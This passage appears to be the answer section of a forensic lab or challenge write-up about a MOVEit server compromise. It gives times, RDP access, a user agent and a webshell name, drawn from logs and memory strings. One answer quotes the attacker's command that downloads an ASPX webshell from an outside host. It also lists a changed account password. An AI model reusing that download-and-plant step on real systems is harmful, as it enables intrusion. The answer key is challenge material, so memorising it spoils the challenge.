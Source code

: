 8.  We suspect the attacker may have changed the password for our
    service account. Please confirm the time this occurred (UTC).

    12/07/2023 11:09:27 (Event Logs [Password Change](#password-change))

9.  Which protocol did the attacker utilize to remote into the
    compromised machine?

    RDP (Event Logs [Login Events - Type 10](#type-10))

10. Please confirm the date and time the attacker remotely accessed the
    compromised machine?

    12/07/2023 11:11:18 (Event Logs [Login Events - Type
    10](typora://app/typemark/window.md#type-10))

11. What was the useragent that the attacker used to access the
    webshell?

    `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0`
    (IIS logs [#user-agent-analysis](#user-agent-analysis))

12. What is the inst ID of the attacker?

    1234 (SQL Dump [InstID](#instid), [Metasploit Code
    Analysis](#metasploit))

13. What command was run by the attacker to retrieve the webshell?

    `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx` (PS
    History [Data](#data), vmem strings [move.aspx](moveaspx-1))

14. What was the string within the title header of the webshell deployed
    by the TA?

    awen asp.net webshell (vmem strings [move.aspx](moveaspx-1))

15. What did the TA change the our moveitsvc account password to?

    5trongP4ssw0rd (vmem strings [Password Change](#password-change-1))





